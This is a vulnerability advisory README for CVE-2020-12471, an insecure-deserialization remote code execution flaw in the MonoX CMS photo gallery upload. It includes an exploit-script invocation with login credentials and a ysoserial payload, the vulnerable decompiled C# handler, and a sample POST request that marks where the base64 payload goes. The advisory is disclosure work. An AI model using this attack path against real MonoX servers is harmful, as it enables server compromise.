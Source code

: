 # Photogallery - Remote Code Execution via Insecure Deserialization

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadModule`. The manipulation of the of the **ctl00$ctl00$ctl01$ctl00$cp$cp$wpm$gwpsnPhotoGallery$snPhotoGallery$photoUpload$ctlUpload$handlerResponse** parameter leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-12471. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit script is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily identified by code inspection. The affected function is the following:

```csharp
//#Kw Decompiled function name
private void #Kw(object sender, EventArgs e)
    {
        if (this.EnableFileGallery && ApplicationSettings.TrustLevel == AspNetHostingPermissionLevel.Unrestricted)
        {
            string[] array = this.handlerResponse.Value.Split(string.Format("{0},", "(SEPARATOR)"));
            foreach (string text in array)
            {
                string s = text.Replace("(SEPARATOR)", string.Empty);
                SnFileDTO snFileDTO = null;
                try
                {
                    snFileDTO = (SnFileDTO)BinarySerializer.Deserialize(Convert.FromBase64String(s));
                }
                catch
                {
                    snFileDTO = null;
                }
                if (snFileDTO != null)
                {
                    this.UploadedFileDTOs.Add(snFileDTO);
                }
            }
            this.handlerResponse.Value = string.Empty;
            this.UploadedFileDTOs = null;
            this.fileGallery.BindData();
        }
        this.OnFilesUploaded(this.EntityId, this.EntityType);
    }

```
This function got called after an image was uploaded in the gallery. Intercepting the traffic with Burp revealed the endpoint. The litmus test was finding a base64 encoded string followed by `(SEPARATOR)`. An example request is following:

<pre>
<code>
POST /MonoX/Pages/SocialNetworking/lng/en-US/PhotoGallery.aspx HTTP/1.1
Host: monox.local
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/71.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: {Stripped}
Content-Length: 5240

ctl00%24ctl00%24ctl01%24ctl00%24cp%24cp%24wpm%24gwpsnPhotoGallery%24snPhotoGall
ery%24photoUpload%24ctlUpload%24handlerResponse=<strong style="color: blue;">{base64-enc-payload}</strong><strong style="color: red;">(SEPARATOR)</strong>
&ctl00_ctl00_ctl01_ctl00_cp_cp_wpm_gwpsnPhotoGallery_snPhotoGallery_photoUpload
_ctlUpload_fileGallery_wndManager_ClientState=&ctl00_ctl00_ctl01_ctl00_editorSo
urceWindowManager_ClientState=&__VIEWSTATE_WAOKEY=&__VIEWSTATE=&__SCROLLPOSITIO
NX=0&__SCROLLPOSITIONY=0&__ASYNCPOST=true&ctl00%24ctl00%24ctl01%24ctl00%24cp%24
cp%24wpm%24gwpsnPhotoGallery%24snPhotoGallery%24photoUpload%24ctlUpload%24btnPo
stback=
</code>
</pre>

With these information, it was fairly easy to trigger an RCE via deserialization crafting a payload with **ysoserial.net**.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)